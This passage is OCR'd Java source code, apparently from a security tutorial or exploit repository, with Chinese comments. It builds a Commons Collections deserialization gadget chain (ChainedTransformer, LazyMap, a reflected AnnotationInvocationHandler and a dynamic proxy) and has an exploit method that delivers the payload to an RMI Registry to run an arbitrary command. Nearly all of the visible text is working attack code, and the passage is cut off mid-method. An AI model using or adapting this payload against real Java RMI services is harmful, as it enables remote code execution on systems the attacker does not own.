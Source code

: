             // 创建ChainedTransformer调用链对象
            Transformer transformerChain = new ChainedTransformer(transformers);

            // 使用LazyMap创建一个含有恶意调用链的Transformer类的Map对象
            final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);

            // 获取AnnotationInvocationHandler类对象
            Class clazz = Class.forName(ANN_INV_HANDLER_CLASS);

            // 获取AnnotationInvocationHandler类的构造方法
            Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);

            // 设置构造方法的访问权限
            constructor.setAccessible(true);

            // 实例化AnnotationInvocationHandler，
            // 等价于: InvocationHandler annHandler = new AnnotationInvocationHandler(Override.class, lazyMap);
            InvocationHandler annHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);

            // 使用动态代理创建出Map类型的Payload
            final Map mapProxy2 = (Map) Proxy.newProxyInstance(
                    ClassLoader.getSystemClassLoader(), new Class[]{Map.class}, annHandler
            );

            // 实例化AnnotationInvocationHandler，
            // 等价于: InvocationHandler annHandler = new AnnotationInvocationHandler(Override.class, mapProxy2);
            return (InvocationHandler) constructor.newInstance(Override.class, mapProxy2);
        }

        /**
            * 执行Payload
            *
            * @param registry RMI Registry
            * @param command  需要执行的命令
            * @throws Exception Payload执行异常
            */
        public static void exploit(final Registry registry, final String command) throws Exception {
            // 生成Payload动态代理对象
            Object payload = genPayload(command);
            String name    = "test" + System.nanoTime();

            // 创建一个含有Payload的恶意map
            Map<String, Object> map = new HashMap();
            map.put(name, payload);

            // 获取AnnotationInvocationHandler类对象
            Class clazz = Class.forName(ANN_INV_HANDLER_CLASS);

            // 获取AnnotationInvocationHandler类的构造方法
            Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);

            // 设置构造方法的访问权限
            constructor.setAccessible(true);

            // 实例化AnnotationInvocationHandler，
            // 等价于: InvocationHandler annHandler = new AnnotationInvocationHandler(Override.class, map);
            InvocationHandler annHandler = (InvocationHandler) constructor.newInstance(Override.class, map);
